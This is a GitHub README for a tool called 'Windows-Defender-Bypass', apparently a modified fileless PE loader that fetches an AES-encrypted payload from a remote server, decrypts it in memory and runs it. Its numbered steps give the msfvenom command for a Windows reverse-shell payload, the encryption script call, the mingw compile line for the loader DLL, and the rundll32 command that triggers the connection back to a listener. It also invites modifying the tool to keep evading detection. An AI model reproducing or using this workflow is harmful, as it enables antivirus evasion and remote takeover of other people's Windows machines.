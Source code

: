 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]

This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. 
It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.


STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

    ```python3 aes.py shell.exe```

Successfull execution of the above command will result two files named cipher.bin and key.bin.

5. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.
7. Open command prompt and run the following command.

 ```rundll32 a.dll, DllRegistryServer```

9. After a second, You will see the connection in your terminal where you started your listener.
